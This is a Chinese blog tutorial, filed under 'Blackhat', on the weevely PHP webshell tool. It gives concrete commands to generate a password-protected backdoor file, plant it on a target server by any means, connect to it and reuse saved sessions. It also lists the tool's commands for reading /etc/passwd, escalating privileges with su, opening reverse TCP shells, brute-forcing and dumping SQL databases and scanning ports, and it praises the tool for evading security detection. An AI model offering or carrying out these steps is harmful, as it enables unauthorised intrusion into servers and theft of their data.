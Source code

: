 ```yaml
---
title: 生成、管理、连接php后门webshell工具weevely的使用
name: weevely-php-webshell
date: 2016-4-13
tags: [php后门,webshell,weevely]
categories: [Blackhat]
---
```


* 目录
{:toc}

---


# 生成、管理、连接php后门webshell工具weevely的使用

## 1. 介绍

**[weevely](https://github.com/epinna/weevely3)**是一种命令行的webshell，它能生成php后门文件以及连接的功能。提供类似与ssh命令行终端的操作方式，weevely每次生成的webshell都不一样，所以可以有效的避免安全系统的查杀。

## 2. 特性

* SSH终端的操作
* 在目标主机上运行sql控制台
* 在目标主机上使用代理服务
* 主机配置安全审计
* 挂在目标系统文件到本地
* 在目标主机上进行扫描
* 文件上传和下载
* 正向反向TCPshell
* 暴力破解
* 管理压缩归档

## 3. 依赖安装

由于weevely是python程序编写，所以需要安装python2.7的环境以及下载weevely的主程序包，另外还需要安装weevely的python依赖库，如下：

**linux依赖库安装**

```shell
sudo apt-get install g++ python-pip libyaml-dev python-dev
sudo pip install prettytable Mako PyYAML python-dateutil PySocks –upgrade
```

**osx依赖库安装**

```shell
sudo port install python27 py27-pip
sudo port select –set pip pip27
sudo port select –set python python27
sudo pip install prettytable Mako PyYAML python-dateutil readline PySocks –upgrade
```

**windows依赖库安装**

```shell
pip install prettytable Mako PyYAML python-dateutil pyreadline PySocks –upgrade
```

## 4. 使用

### 4.1 生成php后门文件

```shell
# weevely generate <连接密码> <后门保存路径>
weevely generate 123321 /root/b.php
```

### 4.2 上传后门文件

无论你用什么方式，只要把后门文件放到对方服务器中，且通过浏览器能访问到，可能是白板，但不会有404错误。

### 4.3 shell连接后门文件

```shell
# weevely <服务器后面HTTP路径> <连接密码>
weevely http://vinny.cc/b.php 123321
```

![weevely](http://ohdpyqlwy.bkt.clouddn.com/weevely-1.png)

> **weevely**可以保存连接的**session**，此**session**并非是http里会话的概念，weevely的session保存的是站点的连接信息，通常情况下会保存在"~/.weevely/sessions/站点域名/后面文件名_x.session"中，如："/root/.weevely/sessions/www.wangjunneil.com/b_0.session"。那么在下次连接到后面时可以通过此session文件进行连接，如下：

```shell
# weevely session <session文件路径> <shell命令>
weevely session /root/.weevely/sessions/www.wangjunneil.com/b_0.session
weevely session /root/.weevely/sessions/www.wangjunneil.com/b_0.session ls -al
```

## 5. weevely内部命令

```
weevely> help
 
 :audit_filesystem     审计系统文件错误的权限
 :audit_etcpasswd      查看linux系统下/etc/passwd的口令文件
 :audit_phpconf        查看当前系统php的配置信息
 :audit_suidsgid       通过SUID或SGID查找文件
 :shell_su             使用su命令提权
 :shell_sh             运行一个shell命令
 :shell_php            运行一个php命令
 :system_extensions    查看php和server服务器的扩展
 :system_info          全局查看系统信息
 :backdoor_tcp         Spawn a shell on a TCP port.
 :backdoor_reversetcp  运行一个反向TCP shell
 :bruteforce_sql       暴力破解SQL数据库
 :file_grep            查找匹配的文件
 :file_zip             压缩或解压缩zip文件
 :file_upload2web      Upload file automatically to a web folder and get corresponding URL.
 :file_enum            Check existence and permissions of a list of paths.
 :file_read            从远程系统读取文件
 :file_cd              切换目录
 :file_ls              列出目录内容
 :file_rm              删除文件
 :file_check           获取文件信息
 :file_gzip            压缩或解压缩gzip文件
 :file_cp              复制单个文件
 :file_tar             压缩或解压缩tar文件
 :file_bzip2           压缩或解压缩bzip2文件
 :file_upload          上传文件
 :file_webdownload     Download URL to the filesystem
 :file_touch           改变文件时间戳
 :file_edit            编辑文件
 :file_find            用给出的名称和属性查找文件
 :file_download        下载文件
 :file_mount           使用HTTPfs挂在远程文件系统到本地
 :sql_dump             Multi dbms mysqldump replacement.
 :sql_console          打开SQL控制台
 :net_curl             Perform a curl-like HTTP request.
 :net_scan             TCP端口扫描
 :net_ifconfig         获取网卡信息
 :net_proxy            开启本地代理
 :net_phpproxy         在系统中安装php代理
```